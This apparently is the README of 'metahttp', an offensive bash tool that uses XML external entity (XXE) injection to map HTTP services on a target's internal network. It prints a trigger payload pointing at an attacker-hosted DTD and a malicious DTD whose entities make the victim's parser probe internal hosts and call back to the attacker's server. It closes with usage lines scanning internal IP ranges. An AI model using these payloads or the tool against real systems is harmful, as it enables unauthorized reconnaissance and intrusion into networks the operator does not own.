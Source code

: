 # metahttp

A bash script that automates the scanning of a target network for HTTP resources through XXE

<p align="center">
  <img width="680" src="img/meta.gif"/>
</p>

## How it works

Initially the script waits for the target application to load the DTDs from the HTTP server it hosts.

Next the attacker triggers the XXE on the target server by submitting for example the following XML data:
```xml
<!DOCTYPE r SYSTEM "http://attacker_host/serveme.dtd"><r></r>
```

The script receives the request and responds with the following DTD:
```xml
<!ENTITY % test_target SYSTEM '${target_protocol}://${target_ip}:${target_port}${target_path}'>
<!ENTITY % callback SYSTEM 'http://${server_hostname}:${http_callback_port}/${callback_path_prefix}${target_ip}_${target_port}'>
<!ENTITY % trigger '%test_target;%callback;'>
%trigger;
```

After receiving the DTD, the XML parser will attempt to substitute the `trigger` parameter entity with its value.
The `trigger` parameter entity includes both `test_target` and `callback`. Now here we depend on the fact that XML parsers will normally process the parameter entities one by one. In case the substitution of an entity fails, they will not proceed with the substitution of the subsequent entities. So now, if we receive a callback to our server, it means that the substitution of the `callback` parameter entity was initiated which with its turn means that the resource pointed by the `test_target` exists.

The above procedure is repeated for all the provided hosts/ports. Since there might be a big number of hosts/ports combinations, the step where the attacker has to trigger the XXE on the target server is automated  through the use of the "dispatcher". The dispatcher is an executable passed to metahttp through the -x option and is responsible for triggering the XXE on the target server. Couple of examples are provided in the dispatcher_examples folder.

Finally it is noted that the script currently depends on the underlying XML parser processing external DTDs and entity substitutions but it should be possible to be adjusted to different XXE scenarios.

## Usage
1. Local testing with a Java app on docker:
```bash
./metahttp.sh -T <(echo dockerhost) -p 80 -x ./dispatcher_examples/docker_java.sh -a /
```

2. Scanning the internal network of a target for a server hosting the resource /path/unique/to/a/service:
```bash
./metahttp.sh -t 10.10.0.0/24,10.20.0.0-10.20.0.15 -p 80,8000-8080,8983 -x ./dispatcher_examples/target_curl.sh -a /path/unique/to/a/service
```

3. More information on the options
```bash
./metahttp.sh --help
```

